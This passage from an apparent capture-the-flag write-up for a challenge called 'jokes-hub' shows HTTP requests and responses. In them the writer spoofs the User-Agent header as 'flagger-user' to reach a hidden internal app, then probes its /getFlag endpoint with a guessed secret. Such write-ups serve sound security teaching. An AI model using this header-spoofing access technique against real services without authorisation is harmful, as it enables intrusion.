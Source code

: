```
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Now, let's modify user-agent :

```
...
User-Agent: flagger-user
...
```

Which redirects us to the flagger app, but we need to request a valid endpoint :

```
HTTP/1.1 404 NOT FOUND
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:10:54 GMT
content-type: text/html; charset=utf-8
content-length: 207
connection: close

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

From the `flagger.py`, there is a `/getFlag/<secret>` endpoint, by sending any secret, we get :

```
GET /getFlag/<secret> HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: flagger-user
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:12:51 GMT
content-type: text/html; charset=utf-8
content-length: 12
connection: close

Wrong secret
```
